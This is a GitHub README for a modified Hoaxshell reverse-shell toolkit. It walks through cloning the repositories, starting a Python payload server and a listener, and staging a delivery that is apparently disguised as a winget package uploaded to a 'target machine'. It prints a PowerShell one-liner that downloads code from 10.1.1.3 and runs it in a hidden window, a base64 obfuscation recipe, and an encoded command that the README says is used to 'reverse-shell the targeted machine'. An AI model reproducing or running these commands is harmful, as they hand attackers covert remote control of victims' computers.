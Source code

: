 <img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Hoax.png" width="500">

# sp-hoaxshell

Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automatise everything
& see : https://github.com/SentinelSamuel/sp-hoaxshell

## Installation + configuration before the start
```
sudo git clone https://github.com/t3l3machus/hoaxshell.git
sudo rm ./hoaxshell/hoaxshell.py
sudo git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
sudo mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
sudo mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
sudo pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture2.png" width="500">

### 2) Start hoaxshell
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture3.png" width="500">

### 3) Make the info file correct
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
pwsh info-3.ps1
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture4.png" width="500">

## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targeted machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture5.png" width="500">


## AFTER INSTALLING AND DOING EVERYTHING IN THE sp-hoaxshell
Winget.ps1 & winget-manifest.yml --> upload on the target machine

## Installation & configuration before the start :
```
# if you are still in the sp-hoax folder :
cd ..
sudo git clone https://github.com/SentinelSamuel/sp-winget-RS-hoax.git
cd ./sp-winget-RS-hoax/winget
``` 

### 4) Start Sha256 changer
```
sudo bash change-sha256.sh
```
